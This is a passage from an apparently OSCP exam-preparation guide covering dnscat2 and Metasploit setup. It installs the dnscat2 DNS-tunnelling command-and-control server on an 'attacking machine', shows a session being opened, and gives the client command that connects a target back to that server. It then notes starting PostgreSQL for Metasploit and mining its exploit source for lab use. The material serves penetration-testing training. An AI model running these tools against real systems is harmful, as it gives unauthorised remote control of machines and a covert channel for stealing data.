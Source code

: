     *   Attacking Machine Installation:

        <div class="highlight highlight-source-shell">

        <pre>apt-get update  
        apt-get -y install ruby-dev git make g++  
        gem install bundler  
        git clone https://github.com/iagox86/dnscat2.git  
        <span class="pl-c1">cd</span> dnscat2/server  
        bundle install</pre>

        </div>

    *   Run dnscat2:

            ruby ./dnscat2.rb  
            dnscat2> New session established: 1422  
            dnscat2> session -i 1422

    *   Target Machine:  
        [_https://downloads.skullsecurity.org/dnscat2/_](http://web.archive.org/web/20171113221652/https://downloads.skullsecurity.org/dnscat2/)

        [_https://github.com/lukebaggett/dnscat2-powershell/_](http://web.archive.org/web/20171113221652/https://github.com/lukebaggett/dnscat2-powershell/)

        `dnscat --host <dnscat server ip>`

# [](https://x89k.tk/infosec/2018/11/03/oscpsurvivalguide.html#the-metasploit-framework)The Metasploit Framework

*   See [_Metasploit Unleashed Course_](http://web.archive.org/web/20171113221652/https://www.offensive-security.com/metasploit-unleashed/) in the Essentials

*   Search for exploits using Metasploit GitHub framework source code:  
    [_https://github.com/rapid7/metasploit-framework_](http://web.archive.org/web/20171113221652/https://github.com/rapid7/metasploit-framework)  
    Translate them for use on OSCP LAB or EXAM.

*   Metasploit

    *   MetaSploit requires Postfresql

        `systemctl start postgresql`

    *   To enable Postgresql on startup

        `systemctl enable postgresql`

